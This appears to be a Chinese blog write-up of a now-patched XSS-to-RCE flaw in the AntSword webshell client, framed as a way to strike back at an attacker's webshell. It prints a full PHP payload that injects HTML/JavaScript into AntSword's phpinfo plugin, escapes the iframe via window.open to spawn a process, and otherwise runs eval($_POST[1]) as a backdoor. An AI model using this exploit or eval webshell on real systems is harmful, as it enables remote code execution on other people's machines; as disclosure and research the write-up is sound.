




# AntSword一个RCE

最近关于蚁剑的XSS#RCE挺多的，原本是周一找到的，今天准备报给官方，但是复现的时候，发现最新版已经修复了…这是不同于之前RCE的思路，值得记录一下~

## 关于蚁剑

**中国蚁剑是一款开源的跨平台网站管理工具** ，使用Electron与nodejs实现的跨平台管理工具。

4.11日，被人发现一枚可以RCE的漏洞 https://github.com/AntSwordProject/antSword/issues/147

4.16日，被发现另外一枚可以RCE的漏洞

https://github.com/AntSwordProject/antSword/issues/150

## 开始吧

首先场景设置为我们发现了一只蚁剑的木马悄悄躺在我们的服务器中，如何进行反制。首先我们可以知道我们是可以控制发送给蚁剑的流量的，所以我们的目的就是控制蚁剑流量 => 蚁剑进行相关处理 => 造成XSS => 触发RCE

### 发现造成XSS

在第一次被发现RCE漏洞后，作者对其做了很多修补，常见的可以触发的点，目录，文件等等也都被转义了。于是我转向其他的地方，包括ip地址，当前目录名的变量等等，但是看了源码，ip地址是由蚁剑直接发出的流量进行获取，无法仿造，当前的目录名称也被转义了，(在测试的时候发现修改文件名可以造成一些自嗨的效果，但不符合我们的场景。。)尝试了一些后，我把目标转移到了插件。

phpinfo插件是很常用的插件，看它的源码会发现它会将网页的内容原生的返回，这给我们伪造内容留下了很大的空间。

https://github.com/AntSword-Store/phpinfo/blob/master/main.js



可以看到 phpinfo的内容已经被替换了。



### 突破iframe限制

虽然我们可以替换phpinfo的内容了，但是他是嵌入在一个`iframe`标签里面的，我们无法执行在iframe里面执行外部的命令。但这都是在于web的思路，我们面向的是electron，同时蚁剑的加载器是封装的很老的electron版本，我在https://xz.aliyun.com/t/2640找到了一个突破的iframe执行命令的方法。通过在iframe里面调用`window.open()`可以得到一个独立nodejs运行环境！

## 成功执行

整个的Payload如下，提供一个思路
```php 
<?php
if(strlen($_POST[1]) == 153){
    preg_match_all('/echo "(\w+)";/i', $_POST[1], $mat);

    $profix = $mat[1][0];
    $suffix = $mat[1][1];
    echo $profix;?>
    <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>Hello World!</title>
  </head>
  <body>
    <h1>Hello World!</h1>
    <p>This window does not have access to node bindings.</p>
    <pre>process: <script>document.write(process)</script></pre>
    <script>
      window.open('data:text/html,But this one does! <br><pre>process.cwd(): <script>document.write(process.cwd());const {spawn} = require("child_process");spawn("open",["/Applications/Calculator.app"]);</scr'+'ipt></pre>');
    </script>
  </body>
</html>
    <?php
    echo $suffix;
}else{
    eval($_POST[1]);
}

```

一个演示GIF



## 修复方案

新版本在iframe中添加了sandbox属性，导致无法执行JavaScript了。



影响版本 < 2.0.7.3
